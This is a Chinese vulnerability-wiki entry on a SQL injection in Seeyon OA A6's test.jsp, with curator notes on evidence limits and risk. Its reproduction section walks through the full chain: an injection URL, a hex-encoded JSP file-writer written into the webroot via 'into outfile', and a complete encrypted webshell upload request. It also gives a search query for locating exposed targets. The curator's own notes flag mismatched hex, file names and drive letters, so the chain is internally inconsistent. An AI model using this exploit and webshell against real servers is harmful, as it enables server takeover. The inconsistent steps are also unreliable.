





# 致远A6 test.jsp S1 SQL注入与文件写入

## 条目说明

- 对象与具体问题：致远A6；test.jsp S1 SQL注入与文件写入
- 版本、配置及部署条件：A6/MySQL；FILE权限和路径可写
- 认证与权限前提：未说明认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与另一test.jsp主文近重复，新增目录/上传样例但内部不一致
- 独立HEX列含5C5C、请求HEX却5C导致Java字符串反斜杠不同；写test_upload.jsp后POST变peiqi_upload.jsp
- D盘探测却E盘写入无解释；空白不404页面不能证明写入成功
- 合并时保留SQL根因和实际对照，坏后利用示例不可当可靠PoC

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

致远OA A6 test.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

### 漏洞影响

```
致远OA A6
```

### 网络测绘

```
title="致远A8+协同管理软件.A6"
```

### 漏洞复现

访问URL

```
http://xxx.xxx.xxx.xxx/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())
```




返回了当前使用的数据库, 要想写入shell需要知道写入的路径




这里得到路径 `D:\Program Files\UFseeyon\OA\mysql\bin..\`

通过 into outfile 写入文件，这里因为 jsp木马存在特殊符号，使用 hex编码 上传允许文件上传的jsp文件

```
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

HEX编码

3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C5C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E
/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27E:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp%27
```




显示上图则上传成功，访问 test_upload.jsp 为空白不报错页面不存在就是上传成功

在发送请求包上传webshell，这里上传冰蝎




```
POST /yyoa/peiqi_upload.jsp?f=testwebshell.jsp

t=%3C%25%40page%20import%3D%22java.util.*%2Cjavax.crypto.*%2Cjavax.crypto.spec.*%22%25%3E%3C%25!class%20U%20extends%20ClassLoader%7BU(ClassLoader%20c)%7Bsuper(c)%3B%7Dpublic%20Class%20g(byte%20%5B%5Db)%7Breturn%20super.defineClass(b%2C0%2Cb.length)%3B%7D%7D%25%3E%3C%25if%20(request.getMethod().equals(%22POST%22))%7BString%20k%3D%22e45e329feb5d925b%22%3Bsession.putValue(%22u%22%2Ck)%3BCipher%20c%3DCipher.getInstance(%22AES%22)%3Bc.init(2%2Cnew%20SecretKeySpec(k.getBytes()%2C%22AES%22))%3Bnew%20U(this.getClass().getClassLoader()).g(c.doFinal(new%20sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext)%3B%7D%25%3E
```

连接木马




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
